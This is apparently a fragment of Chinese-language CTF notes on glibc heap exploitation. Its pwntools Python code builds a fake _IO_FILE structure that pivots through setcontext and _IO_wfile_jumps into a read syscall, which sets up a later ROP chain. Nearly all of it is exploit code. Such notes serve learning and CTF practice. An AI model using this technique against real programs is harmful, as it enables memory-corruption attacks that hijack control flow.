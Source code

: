 ```python
pay = p64(0x0)*4+p64(_IO_2_1_stderr_)+p64(fake_IO_addr) # 由于不是直接申请到 stdout 所以需要填充一下
```

![image](assets/image-20231221205757-ijv1l99.png)

‍

#### Fake_IO_FILE

‍

- 此攻击流 只是 一个 SYS_read , 后面的ROP 链再传进去，

‍

```python
libc = elf.libc
libc.address = libc_base
libc_rop = ROP(libc)

setcontext = libc.sym['setcontext']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

fake_IO_addr = heap_addr + 3936 # 指向 chunk fd # 如果是 lager bin attack 可以指向 prve_size  然后  标记1可以 * 2
rsp =  fake_IO_addr
fake_IO_FILE  = p64(0) * 4 # 可以调整这里  标记1
fake_IO_FILE += p64(setcontext + 61)
fake_IO_FILE += p64(0) * 10
fake_IO_FILE += p64(0)              # rdi
fake_IO_FILE += p64(fake_IO_addr)   # rsi
fake_IO_FILE += p64(fake_IO_addr+0x100)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0x300)          # rdx
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(rsp)
fake_IO_FILE += p64(syscall)          # syscall SYS_read(0,fake_IO_addr,0x300)
fake_IO_FILE += p64(0) * 3
fake_IO_FILE += p64(_IO_wfile_jumps + 0x20-0x40)
fake_IO_FILE += p64(0) * 2
fake_IO_FILE += p64(fake_IO_addr-0x68+0x20)
```
